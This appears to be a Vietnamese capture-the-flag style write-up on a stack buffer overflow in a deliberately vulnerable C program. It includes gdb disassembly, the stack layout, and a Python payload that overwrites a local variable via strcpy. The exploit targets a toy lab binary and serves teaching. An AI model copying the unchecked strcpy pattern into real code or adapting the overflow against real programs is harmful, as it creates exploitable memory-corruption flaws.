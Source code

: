 # Preview
Source code:
```shell
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) 
  {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) 
  {
    printf("you have correctly got the variable to the right value\n");
  } 
  else 
  {
    printf("Try again, you got 0x%08x\n", modified);
  }
}
```

# Exploit

Lỗ hổng nằm ở hàm strcpy(buffer, argv[1]); Hàm strcpy(D,S) copy mảng ký tự S sang D mà không kiểm tra kích thước của D và S từ đó dẫn tới tràn bộ nhớ.

**ASM**
```shell
└─$ gdb ./vuln
...<SNIP>...
pwndbg> disassem main
Dump of assembler code for function main:
.....
    0x080491a1 <+11>:    mov    ebp,esp
    0x080491a3 <+13>:    push   esi
    0x080491a4 <+14>:    push   ebx
    0x080491a5 <+15>:    push   ecx
    0x080491a6 <+16>:    sub    esp,0x5c        <--- Khởi tạo stack rộng 92 bytes
.....
    0x080491ee <+88>:    mov    eax,DWORD PTR [ebp-0x1c]    <--- Vị trí biến modified trong stack.
    0x080491f1 <+91>:    cmp    eax,0x61626364

```

Ta cần (0x5c - 0x1c) = 64 giá trị để ghi hết biến Buffer[] và 4 bytes để thay đổi giá trị biến **modified**.


**Stack**
```shell
pwndbg> stack 50
00:0000│ esp   0xffffce20 —▸ 0xf7ffdb9c —▸ 0xf7fc26f0 —▸ 0xf7ffda30 ◂— 0x0
01:0004│-064   0xffffce24 ◂— 0x1
02:0008│-060   0xffffce28 —▸ 0xf7fc2720 —▸ 0x80482da ◂— 'GLIBC_2.34'
03:000c│-05c   0xffffce2c ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaffff'
... ↓          15 skipped
13:004c│-01c   0xffffce6c ◂— 'ffff'
14:0050│-018   0xffffce70 —▸ 0xf7da8600 ◂— 0xbad06
15:0054│-014   0xffffce74 —▸ 0xf7fd9d41 (_dl_fixup+225) ◂— mov dword ptr [esp + 0x28], eax
16:0058│-010   0xffffce78 —▸ 0xf7da39a2 ◂— '_dl_audit_preinit'
17:005c│-00c   0xffffce7c —▸ 0xffffcea0 ◂— 0x2
18:0060│-008   0xffffce80 —▸ 0xf7fa4ff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x21dd8c
19:0064│-004   0xffffce84 —▸ 0x804bf04 (__do_global_dtors_aux_fini_array_entry) —▸ 0x8049160 (__do_global_dtors_aux) ◂— 0xfb1e0ff3
1a:0068│ ebp   0xffffce88 ◂— 0x0
```
Biến **modifed** cần nhận giá trị 0x61626364 mà chương trình compile theo Litte endian => modified = "\x64\x63\x62\x61"

**Payload**
```shell
buffer = "a" * 64
modified = "\x64\x63\x62\x61"
payload = buffer + modified
print(payload)
```

**Attack**
```shell
pwndbg> run $(python2 payload.py)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
you have correctly got the variable to the right value          <--- [RIGHT]
[Inferior 1 (process 225) exited normally]
```
